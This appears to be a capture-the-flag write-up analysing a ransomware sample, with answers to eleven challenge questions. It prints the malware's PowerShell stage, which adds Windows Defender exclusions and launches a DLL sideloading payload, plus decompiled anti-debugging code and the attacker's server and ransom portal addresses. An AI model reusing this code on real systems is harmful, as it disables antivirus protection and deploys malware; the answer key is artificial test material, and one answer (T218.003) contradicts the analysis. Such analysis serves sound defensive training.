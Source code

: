 # Analysis
- Firstly, open vhdx file with SysTools VHDX Viewer, there is a obfucated js code, and other files. Based on time created in Viewer, the first file is created is redbadger.webp
Q1: hash of redbadger.webp after computing is 2c92c3905a8b978787e83632739f7071
- Check file rad897C.tmp, got the string that ransomware using to check admin privileges
Q2: S-1-5-32-544
- Convert vhdk disk to raw format and extract file by FTK Imager:
```bash
.\qemu-img.exe convert  -f vhdx -O raw ..\LockPick4.0\defenderscan.vhdx defenderscan.raw
```
- After examinating rad897c.tmp file, it's clearly that malware manipulate cmstp.exe to run malicious script. MITRE ATT&CK cmstp.exe corresponding to it is T1218.003
- Also in rad897c.tmp file, msmpeng.exe is a component of window defender is used for starting process after checking admin privilege
```bash
$frodo = "bXNtcGVuZy5leGU="  #msmpeng.exe
$samwise = "bXBzdmMuZGxs"    #mpsvc.dll
$aragorn = "ZGVmZW5kZXJzY2FuLmpzOmxvbGJpbg==" #defenderscan.js:lolbin
$legolas = "ZGVmZW5kZXJzY2FuLmpzOnBheWxvYWQ=" #defenderscan.js:payload

if (Test-HobbitInCouncil)
{
    if(-Not (Test-MordorElevation))
    {
        Bypass-GondorGate
    }
    else {
        $gandalf = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($frodo))
        Add-MpPreference -ExclusionProcess $gandalf
		Add-MpPreference -ExclusionPath (Get-Item .).FullName
        $boromir = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($aragorn))
        $gandalfContent = Get-Content $currentDirectory\$boromir -Encoding Byte -ReadCount 0
        Set-Content $currentDirectory\$gandalf -Encoding Byte -Value $gandalfContent
        $gimli = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($legolas))
        $aragorn = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($samwise))
        $aragornContent = Get-Content $currentDirectory\$gimli -Encoding Byte -ReadCount 0
        Set-Content $currentDirectory\$aragorn -Encoding Byte -Value $aragornContent
        $proc = Start-Process $currentDirectory\$gandalf -Wait
        Remove-Item $currentDirectory\$gandalf
        Remove-Item $currentDirectory\$aragorn
    }
}
```
Q4: View the properties of file msmpeng.exe is Microsoft Corporation
- The next part is disassemble code of msmpeng.exe and mpsvc.dll. In msmpeng.exe file, this call a function named ServiceCrtMain
```bash
.text:0000000140001010                 public AbsMain
.text:0000000140001010 AbsMain         proc near               ; DATA XREF: .rdata:__guard_fids_table↓o
.text:0000000140001010                                         ; .pdata:ExceptionDir↓o
.text:0000000140001010                 sub     rsp, 28h
.text:0000000140001014                 call    __security_init_cookie
.text:0000000140001019                 xor     edx, edx
.text:000000014000101B                 xor     ecx, ecx
.text:000000014000101D                 call    cs:__imp_ServiceCrtMain
.text:0000000140001023                 xor     ecx, ecx
.text:0000000140001025                 test    eax, eax
.text:0000000140001027                 sets    cl              ; uExitCode
.text:000000014000102A                 call    cs:__imp_ExitProcess
```
- This function is imported from mpsvc.dll, I check this file is packed, then this should be the final payload
Q5: ServiceCrtMain
- About antidebug techniques, first:
+ using IsDebuggerPresent api
```bash
if ( IsDebuggerPresent() )
    goto LABEL_36;
```
+ check powershell is running or not, then break if not running
```bash
CurrentProcessId = GetCurrentProcessId();
  memset(&pe.cntUsage, 0, 0x234ui64);
  pe.dwSize = 568;
  Toolhelp32Snapshot = CreateToolhelp32Snapshot(2u, 0);
  v2 = Toolhelp32Snapshot;
  if ( Toolhelp32Snapshot != (HANDLE)-1i64 && Process32FirstW(Toolhelp32Snapshot, &pe) )
  {
    while ( pe.th32ProcessID != CurrentProcessId )
    {
      if ( !Process32NextW(v2, &pe) )
        goto LABEL_6;
    }
    th32ParentProcessID = pe.th32ParentProcessID;
    if ( pe.th32ParentProcessID != -1 )
    {
      pe.dwSize = 568;
      if ( Process32FirstW(v2, &pe) )
      {
        while ( pe.th32ProcessID != th32ParentProcessID )
        {
          if ( !Process32NextW(v2, &pe) )
            goto LABEL_6;
        }
        if ( wcsicmp(pe.szExeFile, L"powershell.exe") )
          exit(0);
      }
    }
  }
```
+ Final technique is using custom exception handler
```bash
__int64 sub_180001EB0()
{
  SetUnhandledExceptionFilter(UnhandledExceptionFilter);
  __debugbreak();
  return 1i64;
}
```
Q6: 3, SetUnhandledExceptionFilter
- Use msmpeng.exe to load mpsvc.dll, no doubt this is dll sideloading: T1574.002
Q9: T1574.002
- Running malicious malware leads to ransom note that includes url for services portal, also file extension encryption
Q10: yrwm7tdvrtejpx7ogfhax2xuxkqejp2qjb634qwwyoyabkt2eydssrad.onion:9001
Q11: .evil
# Questions
## 1. What is the MD5 hash of the first file the ransomware writes to disk?
- 2c92c3905a8b978787e83632739f7071
## 2. What is the string that the ransomware uses to check for local administrator privileges?
- S-1-5-32-544
## 3. What is the MITRE ATT&CK ID for the technique used by the threat actor to elevate their privileges?
- T218.003
## 4. The ransomware starts a process using a signed binary, what is the full name of the signer?
- Microsoft Corporation
## 5. What is the final payloads' entry point function?
- ServiceCrtMain
## 6. How many Anti-Debugging techniques does the ransomware implement and what is the Windows API function that the final technique leverages?
- 3, SetUnhandledExceptionFilter
## 7. The ransomware targets files with specific extensions, what is the list of extensions targeted in the exact order as the ransomware configuration stores them?
- .doc, .docx, .xls, .xlsx, .ppt, .pptx, .pdf, .txt, .csv, .rtf
## 8. What is the FQDN of the ransomware server the malware connects to?
- api.ltchealthcare.co
## 9. What is the MITRE ATT&CK ID the ransomware uses to run its final payload?
- T1574.002
## 10. What is the full URL including port number of the ransomware groups customer service portal?
- yrwm7tdvrtejpx7ogfhax2xuxkqejp2qjb634qwwyoyabkt2eydssrad.onion:9001
## 11. What is the file extension used to store the newly encrypted files?
- .evil